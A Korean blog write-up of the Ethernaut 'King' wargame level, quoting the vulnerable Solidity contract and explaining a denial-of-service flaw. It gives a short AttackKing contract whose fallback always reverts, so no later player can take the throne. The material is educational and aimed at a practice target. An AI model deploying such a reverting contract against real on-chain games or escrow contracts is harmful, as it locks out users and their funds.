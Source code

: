 ```yaml
---
emoji: 🧢
title: (Ethernaut 취약점 9) King
date: '2022-01-10 19:18:00'
author: 한성원
tags: ethernaut King vulnerability
categories: 취약점분석
---
```



# 👋 Force
__Difficulty 6/10__

- 승리 조건
- 코드 분석
- 풀이
순서로 진행 될 것이다.

- - -

## 승리 조건
- 게임을 break 하기
- 즉 내가 왕이되고 누구도 왕이 될 수 없게 만들기

- - -

## 코드 분석
분석은 주석에!

```solidity
contract King {
    // address of king
    address payable king;
    // 
    uint public prize;
    // contract의 owner
    address payable public owner;

    // contructor
    constructor() public payable {
        // set deployer as owner
        owner = msg.sender;  
        // set deployer as king
        king = msg.sender;
        // set prize as msg.value <- deployer's value
        prize = msg.value;
    }

    // receive function to get Ether
    receive() external payable {
        // msg.value가 현재 prize 보다 크거나, msg.sender가 owner이면 진행
        require(msg.value >= prize || msg.sender == owner);
        // king에게 msg.value를 보낸다.
        king.transfer(msg.value);
        // king을 msg.sender로 변경
        king = msg.sender;
        // prize를 msg.value로 변경
        prize = msg.value;
    }

    // 누가 king인지 볼 수 있는 함수
    function _king() public view returns (address payable) {
        return king;
    }
}
```
- - -

## 풀이
이 문제에서 우리의 목표는 이 게임을 break하는 것이다. 즉 누구도 게임을 할 수 없게 만들면 된다.

위 코드는 내가 전에 공부했던 King of Ether이라는 contract와 비슷하다. 그렇기 때문에 조금 쉽게 해결 할 수 있었다. unexpected revert가 무엇인지 궁금하다면 아래 post를 클릭해 먼저 보고오자!
- [DOS with Unexpected Revert](https://holyhansss.github.io/vulnerability/dos_with_unexpected_revert/dos_unexpected_revert/)

이 문제에서 중요하게 봐야할 점은 .transfer이다. 우리는 transfer을 사용해 Ether를 보낼 수 있다. 근데 만약 EOA가 아닌 CA에게 Ether를 보내는 것이라면 어떨까? 

CA는 receive함수를 설정하여 Ether를 받지 않고 revert 시킬 수 있다. 즉 만약 CA가 king이 되고 Ether를 받지 못하게 설정한다면 이제 누구도 게임을 진행 할 수 없게된다.

attackKing contract를 한번 보며 더 이해해보자!

```solidity
contract AttackKing {

    constructor() public payable {}
    
    //
    function attackKing(address payable _king) public payable {
      _king.call{value: msg.value}("");
    }

    fallback() external {
        revert();
    }
}
```

- - -
## 기타 정보
- rinkeyb network ether faucet: https://faucets.chain.link/rinkeby
- ethernaut: https://ethernaut.openzeppelin.com/
- remix IDE: https://remix.ethereum.org
- selfdestruct 취약점: https://holyhansss.github.io/vulnerability/selfdestruct/selfdestruct/

```toc

```